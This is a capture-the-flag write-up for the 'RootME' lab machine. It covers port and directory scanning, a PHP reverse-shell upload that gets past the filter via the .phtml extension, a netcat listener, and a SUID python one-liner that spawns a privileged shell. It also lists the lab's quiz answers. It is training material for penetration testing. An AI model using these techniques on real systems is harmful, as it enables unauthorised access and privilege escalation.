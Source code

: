# RootME Writeup by Rumble ^^ 

# ip= machineip 

#Task1 

Not much in there just suitup and deploy 

#Task2 

`````````
So lets begin with some scans to the ports using nmap $

# Command>>  nmap -sV -sC -oA ./initalscan $ip -Pn

And in thesametime lets run some dir attack using gobuster 

# Command>> gobuster dir -u $ip -w directory-list-lowercase-2.3-medium.txt -o ./buster

`````````
#Questions: on Nmap and gobuster 
  1-  Scan the machine, how many ports are open?  2
  2-  What version of Apache are running? 2.4.29 
  3-  What service is running on port 22? SSH
  5-  What is the hidden directory? /panel/



#Task3 

```````
After we used gobuster we got some dir one of them was /uploads lets use it to get shell. 

So we have to bypass it since we cant upload our php shell 
>> We did it by changing the ext for the reverseshell to <phtml>
>> Now lets start our Revshell using nc 

# Command>> nc -lvvp 7773
# Get stable shell ^^ using any method 

# find / -name user.txt 2>dev/null  to locate the user.txt dir 
```````
#Questions: user.txt flag 
 1- just cat the /var/www/user.txt



# Task4 

``````
Using any PE way we can get root for me I used this command and then head to GTFOBins to see if there is any thing and I found that /usr/bin/python creepy little bit so used google to see if I can get a sudo 

# Command>> python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

`````` 
# Last flag 
 1-  Since you have the root P you can claim it 


^^ 



